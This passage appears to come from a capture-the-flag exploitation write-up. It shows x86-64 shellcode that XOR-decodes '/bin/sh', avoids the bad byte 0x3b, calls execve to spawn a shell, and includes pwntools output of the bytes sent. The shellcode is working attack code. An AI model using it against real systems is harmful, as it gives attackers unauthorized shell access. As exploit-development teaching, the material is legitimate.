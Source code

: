 Only bad bytes left for `syscall` and `argv` parts. For `syscall` part, we can use `0x3a` instead of `0x3b`, push it into the Stack then add `0x1` to it. And for `argv` part, we can push `0x0` straight onto the stack then pop it into the necessary registers. Or we can push a `rax` to the stack (rax register here is set to NULL which `0x0` in it because we haven't set the value for it yet)

```nasm
    mov rdi, 0xff978cd091969dd0
    xor rdi, 0xffffffffffffffff

    push rdi
    mov rdi, rsp

    push 0x0
    pop rsi
    push 0x0
    pop rdx

    push 0x3a
    pop rax
    add al, 0x1
    syscall
```

or

```nasm
    mov rdi, 0xff978cd091969dd0
    xor rdi, 0xffffffffffffffff

    push rdi
    mov rdi, rsp

    push rax
    mov rsi, rax
    mov rdx, rax

    push 0x3a
    pop rax
    add al, 0x1
    syscall
```

Let's run it again and check:

```bash
<...>
        mov rdi, 0xff978cd091969dd0
        xor rdi, 0xffffffffffffffff
        push rdi
        mov rdi, rsp
    push rax
    mov rsi, rax
    mov rdx, rax
        push 0x3a
        pop rax
        add al, 0x1
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-b49gsxuj/step2 /tmp/pwn-asm-b49gsxuj/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-b49gsxuj/step3 /tmp/pwn-asm-b49gsxuj/step4
[DEBUG] Sent 0x21 bytes:
    00000000  48 bf d0 9d  96 91 d0 8c  97 ff 48 83  f7 ff 57 48  │H···│····│··H·│··WH│
    00000010  89 e7 50 48  89 c6 48 89  c2 6a 3a 58  04 01 0f 05  │··PH│··H·│·j:X│····│
    00000020  0a                                                  │·│
    00000021
<...>

```